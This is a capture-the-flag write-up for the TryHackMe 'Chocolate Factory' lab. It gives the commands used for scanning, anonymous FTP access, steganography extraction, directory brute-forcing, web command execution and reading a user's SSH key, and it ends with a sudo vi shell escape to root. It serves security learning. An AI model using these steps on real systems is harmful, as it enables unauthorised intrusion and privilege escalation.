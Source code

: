 # TryHackMe-Chocolate-Factory-WriteUp
TryHackMe Chocolate Factory WriteUp

first we scan the machine using nmap using the command: nmap -sV [IP HERE]

nmap scan:

21/tcp  open  ftp        vsftpd 3.0.3

22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))

100/tcp open  newacct?

106/tcp open  pop3pw?

109/tcp open  pop2?

110/tcp open  pop3?

111/tcp open  rpcbind?

113/tcp open  ident?

119/tcp open  nntp?

125/tcp open  locus-map?


we login to ftp using username: "anonymous" and password: "anonymous"

ftp found "gum_room.jpg"

used steghide to extract it: "steghide extract -sf gum_room.jpg"

didnt put passphrase, b64.txt extracterd.

found what looks like a /etc/shadow file. didnt find anything usefull.

we open the webpage and find a login portal.

i used gobuster to enumrate directories.

"gobuster dir -u http://[IP HERE] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html"

gobuster: the name of the tool.

dir: specify we want to bruteforce directiories.

-u: specify the url

-w: specify the world list

-x: look for filees with exstinsions.

result: 

/.php                 (Status: 403) [Size: 278]

/.html                (Status: 403) [Size: 278]

/index.html           (Status: 200) [Size: 1466]

/home.php             (Status: 200) [Size: 569]

/validate.php         (Status: 200) [Size: 93]

/.php                 (Status: 403) [Size: 278]

/.html                (Status: 403) [Size: 278]

we navigat to home.php, you can run commands in it.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/31328d5d-7b3c-4da8-9d8b-fd4475152840)

we try the whoami command

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/8cf2685a-7078-42d9-9941-39b071417adb)

it works!
we search for users in the home directory using “ls /home"

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/96d7bf6b-4f29-4aef-97c2-fd7cfe113a57)

found user charlie, we list the files, using "ls /home/charlie"

 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/3c453544-953a-44d1-b065-04195b075d5a)

"cat /home/charlie/teleport", Bingo! found ssh private key.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/82535ef1-a991-4952-89a4-b67110ab22bb)

i copied it into id_rsa file then give it the right permissions using “chmod +600”
test if we can login using ssh to the user.
the credintials works!

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/9522c208-f459-47b1-ae7f-8c4100d71e28)

in /var/www/html i found a file named key_rev_key, i try to run it:

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/0297133e-a4ca-474e-9666-f5e0b726651c)

changed the permissions using “chmod +x key_rev_key”

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/b2901f69-3384-42a9-bada-0c384fbf021e)

since its a binary, we can check the file contents using “ strings key_rev_key”

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/34ce26e8-bcc5-4d97-b07f-0afe6d27704d)

got the key! 
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='

in /var/www/html we "cat" validate.php: 

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/2199617c-b703-453a-aaad-aba2359fb1cd)

run validate.php , bingo we got charlies password :)

login to charlies account using "su charlie"
user.txt:
![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/afefcc59-1a50-41a5-b35c-11c2ad7a984d)

----------

Privilge escalition:

in charlie, i tried "sudo -l"

result:

Matching Defaults entries for charlie on chocolate-factory:
   env_reset, mail_badpass,
   
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    
   (ALL : !root) NOPASSWD: /usr/bin/vi



in gtfobins, vi -c ':!/bin/sh' /dev/null

tried run "sudo vi -c ':!/bin/sh' /dev/null"

charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null

pwned!!

root flag:

we find root.py
we run it , enter the key we obtained before , and it shows us the root flag.

![image(1)](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/cabbb2fe-8af8-46ec-a323-7764c1441762)

Happy Pwning :)
